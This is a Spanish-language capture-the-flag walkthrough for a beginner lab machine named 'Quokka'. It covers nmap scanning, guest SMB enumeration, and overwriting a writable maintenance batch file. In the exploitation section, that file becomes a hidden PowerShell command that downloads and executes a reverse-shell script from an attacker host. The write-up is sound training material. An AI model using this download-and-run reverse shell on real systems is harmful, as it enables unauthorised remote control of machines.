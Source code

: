 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Quokka

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.57
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (994).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.57 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (995).png" alt=""><figcaption></figcaption></figure>

Como resultado del escaneo, se identificaron los siguientes puertos abiertos y sus servicios asociados:

* **80/tcp**: Corresponde al servicio HTTP, utilizado para tráfico web no cifrado.
* **135/tcp**: Relacionado con el servicio MSRPC (Microsoft Remote Procedure Call).
* **139/tcp**: Asociado al protocolo NetBIOS-SSN, usado para compartir recursos en redes locales.
* **445/tcp**: Corresponde al servicio Microsoft-DS (Server Message Block, SMB) para compartir archivos e impresoras.
* **5985/tcp**: Utilizado por WSMan (Windows Remote Management).
* **47001/tcp**: Asociado al servicio WinRM (Windows Remote Management).
* **49664-49670/tcp**: Puertos abiertos con servicios desconocidos, posiblemente usados por aplicaciones específicas o dinámicas del sistema.

A continuación, se realizará un análisis más detallado de los servicios activos en estos puertos.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p80,135,139,445,5985,47001,49664-49670 -v 192.168.1.57
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (996).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (997).png" alt=""><figcaption></figcaption></figure>

El análisis identificó la presencia de un servidor IIS y un servicio Samba en el sistema.

<figure><img src="../../.gitbook/assets/image (998).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (999).png" alt=""><figcaption></figcaption></figure>

En la página web encontramos algo que nos podría ayudar como Daniel, Luis y “Quokka” deben revisar un servicio secundario que opera con privilegios elevados. Curiosamente, estos nombres coinciden con los usuarios listados en la sección de contacto del portal. Esta pista sugiere que el servicio Samba podría contener información relevante o ser un punto de interés.

```bash
netexec smb 192.168.1.57 -u 'guest' -p '' --shares
```

<figure><img src="../../.gitbook/assets/image (1000).png" alt=""><figcaption></figcaption></figure>

Nos conectamos.&#x20;

```bash
smbclient //192.168.1.57/Compartido -U guest -N
```

<figure><img src="../../.gitbook/assets/image (1001).png" alt=""><figcaption></figcaption></figure>

Entre todos nos llama la atención el archivo **mantenamiento.bat**.

<figure><img src="../../.gitbook/assets/image (1003).png" alt=""><figcaption></figcaption></figure>

Nos los descargamos para ver su contenido.

<figure><img src="../../.gitbook/assets/image (1004).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Modificamos el archivo para ejecutar una Reverse Shell.

```
@echo off

:: Reverse shell a Kali
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "iex(New-Object Net.WebClient).DownloadString('http://192.168.1.56:8000/shell.ps1')"

:: Fin del script
exit
```

{% @github-files/github-code-block url="https://github.com/MartinSohn/PowerShell-reverse-shell/blob/main/powershell-reverse-shell.ps1" %}

Debemos configurar un servidor para que el script pueda obtener la shell y enviárnosla de vuelta. Para ello, abriremos un servidor en Python y pondremos un puerto en escucha.

<figure><img src="../../.gitbook/assets/image (1006).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1005).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

<figure><img src="../../.gitbook/assets/image (1007).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.&#x20;

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
